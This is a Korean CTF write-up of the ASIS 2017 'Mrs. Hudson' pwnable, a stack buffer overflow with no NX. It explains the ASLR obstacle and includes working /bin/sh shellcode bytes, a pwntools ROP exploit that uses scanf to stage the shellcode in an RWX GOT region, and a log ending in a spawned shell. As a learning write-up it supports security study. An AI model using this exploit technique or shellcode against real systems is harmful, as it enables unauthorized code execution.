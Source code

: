 ```yaml
---
layout: post
title: '[CTF] ASIS2017 Mrs.Hudson'
date: '2017-09-30 11:00:00 +0900'
categories: ctf
tags: [bof]
---
```


- 간단한 BoF
- No NX
- Inject한 shellcode 로 jump 시킬 주소를 어떻게 고정시킬 수 있을까 ?

<!-- more -->

## A. Write-up

[CTFtime.org / ASIS CTF Finals 2017 / Mrs. Hudson](https://ctftime.org/task/4589)


## B. Basic info

#### 1. Code

코드는 간단한 BoF.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+10h] [rbp-70h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("Let's go back to 2000.");
  return __isoc99_scanf("%s", &v4);
}
```


#### 2. Checksec

Threat mitigation 적용이 되어 있지 않으므로 shellcode injeciton 가능.

```bash
gef)  checksec
[+] checksec for '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson'
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

PLT 함수가 너무 적다. 특히 `read()`, `write()` 도 없다.

```
Address Ordinal Name    Library
0000000000601068        puts    
0000000000601070        __libc_start_main   
0000000000601078        setvbuf 
0000000000601080        __isoc99_scanf  
0000000000601088        __gmon_start__  
```



#### 3. BoF

BoF 는 120 byte 에서 터짐.

#### 4. shellcode

[Minimal x86-64 shellcode for /bin/sh? · System Overlord](https://systemoverlord.com/2014/06/05/minimal-x86-64-shellcode-for-binsh/)

```
\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05
```


## C. Problem

간단한 BoF 이나 어려운 점은 injected shellcode 로 jump 시킬 주소를 어떻게 fix 할 수 있는냐 이다.

`0x00007ffddeb19498`
```
0x00007ffddeb19498│+0x00: 0x4242424241414141     ← $rsp
0x00007ffddeb194a0│+0x08: 0x9090909090909090
0x00007ffddeb194a8│+0x10: 0x9090909090909090

     0x400680 <main+102>       call   0x400520 <__isoc99_scanf@plt>
     0x400685 <main+107>       leave  
 →   0x400686 <main+108>       ret  
```


`0x00007ffc94ec0338`
```
0x00007ffc94ec0338│+0x00: 0x4242424241414141     ← $rsp
0x00007ffc94ec0340│+0x08: 0x9090909090909090
0x00007ffc94ec0348│+0x10: 0x9090909090909090

     0x400680 <main+102>       call   0x400520 <__isoc99_scanf@plt>
     0x400685 <main+107>       leave  
 →   0x400686 <main+108>       ret  
 ```


ALSR 이 걸린 상태에서 inject 한 shellcode 실행 시에 위치 변화 없이 shellcode 에 떨어뜨리기 위한 jump 주소는 어떻게 ???

1. Nop slide : `NOP` 잘 깔아두고, jump ?
2. shellcode 를 정해진 위치에 올려놓을 수는 없을까 ???


## D. Solve 

### 1. Nop slide : `NOP` 잘 깔아두고, jump

ASLR로 stack 위치가 엄청하게 변하는데 nop slide 로 커버할 수 있을까 ??? 어려울 듯....

### 2. shellcode 를 ROP 로 정해진 위치에 올려놓기 

- `scanf("%s", @RWX_AREA)`
- jump and execute `@RWX_AREA`

PLT에 `scanf()` 있으므로 RWX 영역에 ROP로 shellcode 올려놓은 다음에 fixed 위치인 RWX 영역으로 jump 하기.

### `RWX_AREA` : GOT

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-x /media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson
0x0000000000601000 0x0000000000602000 0x0000000000001000 rwx /media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson
```

pwndbg 에서 PLT/GOT 주소 참조.

```
pwndbg> plt
0x400500: puts@plt
0x400510: setvbuf@plt
0x400520: __isoc99_scanf@plt
pwndbg> got
[*] '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

GOT protection: No RELRO | GOT functions: 3

[000000601018] puts@GLIBC_2.2.5 -> 0x400506 (puts@plt+6) ◂— push   0 /* 'h' */
[000000601020] setvbuf@GLIBC_2.2.5 -> 0x400516 (setvbuf@plt+6) ◂— push   1
[000000601028] __isoc99_scanf@GLIBC_2.7 -> 0x400526 (__isoc99_scanf@plt+6) ◂— push   2
```

`0x0000000000601000`  부터 GOT 영역이지만 현재 함수에서 사용하는 GOT table 뒤에 write 해야할 듯.

#### Exploit

```python
""" Variable
"""
pop_rdi      = 0x004006f3         # pop rdi; ret
pop_rsi_r15  = 0x00000000004006f1 # pop rsi; pop r15; ret
scanf_plt    = 0x00400526         # scanf@PLT
scanf_string = 0x0040072b         # %s
bin_x        = 0x0000000000601090 # rwx segment

""" Here we go.
"""
log.info("[*] ASIS CTF 2017: mrs_hudson exploit.")

#Let's go back to 2000.
print conn.recvline()

""" ROP
"""
shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"

# Scanf("%s", @RWX_AREA)
#       rdi   rsi
rop =  p64(pop_rdi) + p64(scanf_string)
rop += p64(pop_rsi_r15) + p64(bin_x) + p64(0xdeadbeef)
rop += p64(scanf_plt)
rop += p64(bin_x)

conn.sendline("A"*120 + rop)
conn.sendline(shellcode)
```

## Full exploit

[awesome-ctf-wargame/solv.py at master · 2O2L2H/awesome-ctf-wargame](https://github.com/2O2L2H/awesome-ctf-wargame/blob/master/ctf/2017/asis/pwnable/mrs_hudson/solv.py)

#### Execution

```shell
$ python solv.py
[+] Starting local process './mrs._hudson': pid 6876
[*] running in new terminal: /usr/bin/gdb -q  "/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson" 6876
[+] Waiting for debugger: Done
[*] '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] [*] ASIS CTF 2017: mrs_hudson exploit.
[DEBUG] Received 0x17 bytes:
    "Lets go back to 2000.\n"
Let's go back to 2000.

[DEBUG] Sent 0xb1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  f3 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000080  2b 07 40 00  00 00 00 00  f1 06 40 00  00 00 00 00  │+·@·│····│··@·│····│
    00000090  90 10 60 00  00 00 00 00  ef be ad de  00 00 00 00  │··`·│····│····│····│
    000000a0  26 05 40 00  00 00 00 00  90 10 60 00  00 00 00 00  │&·@·│····│··`·│····│
    000000b0  0a                                                  │·│
    000000b1
[DEBUG] Sent 0x1a bytes:
    00000000  48 bb d1 9d  96 91 d0 8c  97 ff 48 f7  db 53 31 c0  │H···│····│··H·│·S1·│
    00000010  99 31 f6 54  5f b0 3b 0f  05 0a                     │·1·T│_·;·│··│
    0000001a
[*] Switching to interactive mode
$ id
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Received 0x84 bytes:
    'uid=1000(tkhwang) gid=1000(tkhwang) groups=1000(tkhwang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),121(lpadmin),131(sambashare)\n'
uid=1000(tkhwang) gid=1000(tkhwang) groups=1000(tkhwang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),121(lpadmin),131(sambashare)
```









